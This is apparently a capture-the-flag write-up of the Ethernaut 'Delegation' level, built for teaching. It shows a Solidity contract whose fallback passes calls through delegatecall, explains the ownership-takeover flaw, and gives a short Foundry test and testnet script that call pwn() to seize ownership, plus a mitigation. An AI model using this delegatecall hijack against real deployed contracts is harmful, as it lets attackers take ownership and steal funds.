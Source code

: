 # Level 6: Delegation

**Level Page**: [See on Ethernaut](https://ethernaut.openzeppelin.com/level/0x73379d8B82Fda494ee59555f333DF7D44483fD58)

**Description**:

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

- Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids

`Description after completing the level`:

Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The delegatecall function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.


**Code**

Code to be exploited:

<details>
<summary>See Code</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
  address public owner;

    constructor(address _owner) {
      owner = _owner;
    }

    function pwn() public {
      owner = msg.sender;
    }
}

contract Delegation {
  address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
      delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
      (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
          this;
        }
    }
}
```

</details>

# Findings

### [H-1] Dangerous delegatecall allows anyone to claim ownership

**Description**: The `delegatecall` allows to call a function from another contract using the storage of your current contract. In this case, the `Delegation::fallback` is calling a `delegatecall` to `Delegate::pwn` which will execute the `owner = msg.sender;` but using the `Delegation::fallback` storage that also have a `owner`. 

Because of that, if we simply make a contract `.call` passing the `Delegate::pwn` function as `msg.data` parameter, we are able to execute the `delegatecall` that will execute the `Delegate::pwn` function and update the `Delegation::owner` to whoever called the `fallback`.

```javascript
  fallback() external {
@>  (bool result,) = address(delegate).delegatecall(msg.data);
      if (result) {
        this;
      }
  }
```

**Impact**: Anyone can claim the `Delegation` ownership.

**Proof of Code**:

Code snippet from `DelegationAttack.t.sol`:

```javascript
function testShouldClaimOwnership() public{
  address attacker = makeAddr("attacker");
  vm.deal(attacker, 1 ether);

  // Ownership before
  assertEq(delegation.owner(), address(this));

  // Attack
  vm.prank(attacker);
  (bool success,) = address(delegation).call(abi.encodeWithSignature("pwn()"));
  
  assertTrue(success);
  
  // Ownership after
  assertEq(delegation.owner(), attacker);
}
```

**Recommended Mitigation**: It is recommended to avoid using `delegatecall` for these kind of functionalities. A good recommendation is to build for `Delegation` contract it's own `transferOwnership` function, taking all precautions when developing it, of course.

# Attack

**Description**: To exploit this vulnerability, we can just make a `.call` to the `Delegation` sending the `"pwn"` function call encoded (`make attack`):

```javascript
  // DelegationAttack.s.sol

  vm.startBroadcast(attackerPK);

  // Attack
  (bool success,) = address(delegation).call(abi.encodeWithSignature("pwn()"));
  if(!success) revert();

  vm.stopBroadcast();

```

And then execute `make submit` to submit the level instance to Ethernaut contract.

**Instance used**: [0x0f43E30428e74A96488110F493A8FD3C903a6652](https://sepolia.etherscan.io/address/0x0f43E30428e74A96488110F493A8FD3C903a6652)

**Attack Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0xd912b53f931413feffe385f6da4724bc7b86a89d2c3c13c4998a4f6387a3b22f)

**Level Completed Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0xcd583eacd2fb35d4c067497ca4c830d73e2e062b48f439d2196284b79c08e081)

# Getting started

## Build

```bash
make build
```

## Test

```bash
make test
```

## Attack (testnet)

```bash
make attack
```

## Submit level (testnet)

```bash
make submit
```

## Check if you completed the level (testnet)

`true` - You completed the level
`false` - You didn't complete the level

```bash
make check
```